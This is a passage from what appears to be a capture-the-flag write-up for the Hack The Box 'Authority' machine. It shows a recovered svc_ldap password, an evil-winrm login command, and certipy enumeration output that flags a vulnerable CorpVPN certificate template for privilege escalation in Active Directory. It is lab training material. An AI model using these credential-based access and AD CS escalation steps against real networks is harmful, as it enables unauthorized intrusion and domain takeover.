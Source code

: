 svc_ldap: **lDaP_1n_th3_cle4r!**

You can now use evil-winrm for example to get a first connection: `evil-winrm -u "svc_ldap" -p 'lDaP_1n_th3_cle4r!' -i "target_ip"`

### Privilege escalation

The elevation of privileges will relate to the exploitation of vulnerable certificate, in order to do this we will use the tool of the suite impacket certipy, thanks to this tool we will be able to find vulnerabilities in ADCS: `certipy find -u "svc_ldap@authority.htb" -p 'lDaP_1n_th3_cle4r!' -dc-ip '10.10.11.222' -vulnerable -stdout`
```
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Trying to get CA configuration for 'AUTHORITY-CA' via CSRA
[!] Got error while trying to get CA configuration for 'AUTHORITY-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'AUTHORITY-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'AUTHORITY-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : AUTHORITY-CA
    DNS Name                            : authority.authority.htb
    Certificate Subject                 : CN=AUTHORITY-CA, DC=authority, DC=htb
    Certificate Serial Number           : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Certificate Validity Start          : 2023-04-24 01:46:26+00:00
    Certificate Validity End            : 2123-04-24 01:56:25+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : AUTHORITY.HTB\Administrators
      Access Rights
        ManageCertificates              : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        ManageCa                        : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Enroll                          : AUTHORITY.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CorpVPN
    Display Name                        : Corp VPN
    Certificate Authorities             : AUTHORITY-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : AutoEnrollmentCheckUserDsCertificate
                                          PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : 16777216
                                          65536
```